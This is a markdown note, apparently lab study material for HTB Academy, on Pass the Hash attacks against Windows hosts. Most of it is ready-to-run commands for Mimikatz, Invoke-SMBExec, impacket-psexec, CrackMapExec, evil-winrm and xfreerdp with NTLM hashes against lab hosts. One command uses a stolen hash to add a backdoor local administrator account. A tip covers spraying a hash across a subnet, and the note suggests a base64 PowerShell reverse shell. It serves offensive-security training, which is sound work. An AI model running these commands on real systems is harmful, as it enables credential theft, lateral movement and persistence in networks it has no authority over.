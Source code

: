 # Pass the Hash with Mimikatz (Windows)
The first tool we will use to perform a Pass the Hash attack is [Mimikatz](https://github.com/gentilkiwi). Mimikatz has a module named sekurlsa::pth that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password. To use this module, we will need the following:

1) `/user` - The user name we want to impersonate.
2) `/rc4` or `/NTLM` - NTLM hash of the user's password.
3) `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
4) `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

**Pass the Hash from Windows Using Mimikatz:**
```bash
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

# Pass the Hash with PowerShell Invoke-TheHash (Windows)
Another tool we can use to perform Pass the Hash attacks on Windows is [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have **administrative** rights on the target computer. 

When using `Invoke-TheHash`, we have two options: **SMB** or **WMI** command execution. To use this tool, we need to specify the following parameters to execute commands in the target computer:

1) **Target** - Hostname or IP address of the target.
2) **Username** - Username to use for authentication.
3) **Domain** - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
4) **Hash** - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
5) **Command** - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

Following example command on powershell will create user and add it to local administrator command:
```bash
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/e08a278a-ad9b-49bd-8d3d-287ebef07549)

## Idea !
We can also use powershell reverse shell by base64, for that we just need to specify command after `-Command` flag

# Pass the Hash with Impacket (Linux)

**Pass the Hash with Impacket PsExec:**
```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/6a425769-4131-4201-9f4a-767c994a5dcf)

**Pass the Hash with CrackMapExec (Linux):**
```bash
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```
## Tip !

_If we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add `--local-auth` to our command. This method is helpful if we obtain a local administrator hash by dumping the local `SAM database` on one host and want to check how many (if any) other hosts we can access due to local admin password re-use. If we see `Pwn3d!`, it means that the user is a local administrator on the target computer. We can use the option `-x` to execute commands._

# Pass the Hash with evil-winrm (Linux)
```bash
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```
Note: When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb

# Pass the Hash using RDP
```bash
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```
